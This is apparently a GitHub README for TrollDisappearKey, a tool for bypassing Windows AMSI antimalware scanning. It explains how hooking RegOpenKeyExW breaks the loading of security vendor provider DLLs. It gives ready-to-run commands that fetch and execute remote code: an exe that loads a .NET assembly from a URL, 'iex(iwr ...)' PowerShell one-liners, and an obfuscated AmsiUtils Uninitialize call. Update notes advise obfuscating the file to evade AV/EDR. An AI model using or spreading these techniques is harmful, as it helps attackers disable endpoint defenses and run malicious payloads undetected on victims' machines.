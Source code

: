 ## UPDATES
```diff
! UPDATE 06/07/2025
! Added win11 folder
! PS: This still works for many AV/EDR, the technique is not flagged just the static compiled file. So just obfuscate it and it works lol
```
```diff
! UPDATE 26/05/2025
! Added a counter for the .cs/.ps1 files so that after it has completed the redirection of "Software\Microsoft\AMSI\Providers", it will unhook RegOpenKeyExW
! This is to remove the overhead introduced by hooking every RegOpenKeyExW call and causing problems when RegOpenKeyExW is legitimately invoked
! For the powershell reflective loading and .ps1 script, MAKE SURE the process has fully loaded, can run some arbitrary commands first..
```
```diff
! UPDATE 02/06/2025
! "Software\Microsoft\AMSI\Providers" is being detected, code for TrollDisappearKey.cs altered to pass it in as argument as instead
```

# TrollDisappearKey
<br>
<b>bypass clr amsi</b> <br>
TrollDisappearKey.cs   -> compile into a .exe that can load .exe assemblies without amsi scanning taking place during assembly.load() <br>
<br>
<b>bypass powershell amsi</b> <br>
TrollDisappearKeyPS.cs -> compile into a .dll to reflectively load <br>
TrollDisappearKeyPS.ps1 -> copy paste into powershell (most likely to get flagged)

# How does it work?
Upon assembly.load(), internals of amsi/clr will search for reg key "Software\Microsoft\AMSI\Providers" to load the relevant provider dlls (i.e security vendor dlls) 
We hook the reg query function and when amsi/clr tries to read "Software\Microsoft\AMSI\Providers" we overwrite its value to "Software\Microsoft\AMSI\Providers "  <- note the space after providers
This breaks the provider dlls loading process and we are able to assembly load any .net assembly we want. For the powershell amsi, its somewhat similar, we break the vendor dll loading and call uninitialize to trigger a reinitialize. 


## .exe Usage (does not require admin) 
![Image](https://github.com/user-attachments/assets/f1678081-5fa8-4f4d-b7d3-ae9bd2e02a9f)
![Image](https://github.com/user-attachments/assets/7ef91a6a-957f-4c91-80a2-c0b54409917c)

```
TrollDisappearKey.exe <URL TO .EXE ASSEMBLY> <ARGUMENT1,ARGUMENT2> <KEY>
```
## Example
```
TrollDisappearKey.exe "https://github.com/Flangvik/SharpCollection/raw/refs/heads/master/NetFramework_4.7_x64/Seatbelt.exe" "AMSIProviders" "Software\Microsoft\AMSI\Providers"
```

## .powershell Usage (does not require admin)

```
##For PS Script
iex(iwr https://raw.githubusercontent.com/cybersectroll/TrollDisappearKey/refs/heads/main/TrollDisappearKeyPS.ps1 -UseBasicParsing).content

##For PS dll reflective after dl to disk
$code = (iwr https://raw.githubusercontent.com/cybersectroll/TrollDisappearKey/refs/heads/main/TrollDisappearKeyPS.cs -UseBasicParsing).content
Add-Type $code
[TrollDisappearKeyPS]::DisappearKey()
([Ref].Assembly.GetType([System.String]::Join("", "S", "y", "s", "t", "e", "m", ".", "M", "a", "n", "a", "g", "e", "m", "e", "n", "t", ".", "A", "u", "t", "o", "m", "a", "t", "i", "o", "n", ".", "A", "m", "s", "i", "U", "t", "i", "l", "s")).GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq Uninitialize).Invoke($object,$null)
```

## Features
Nothing actually, its quite barebone with short code profile so anyone can tweak it to their needs  (e.g tweak the code to load .dll assemblies instead of just .exe assemblies)

## Disclaimer
Should only be used for educational purposes!







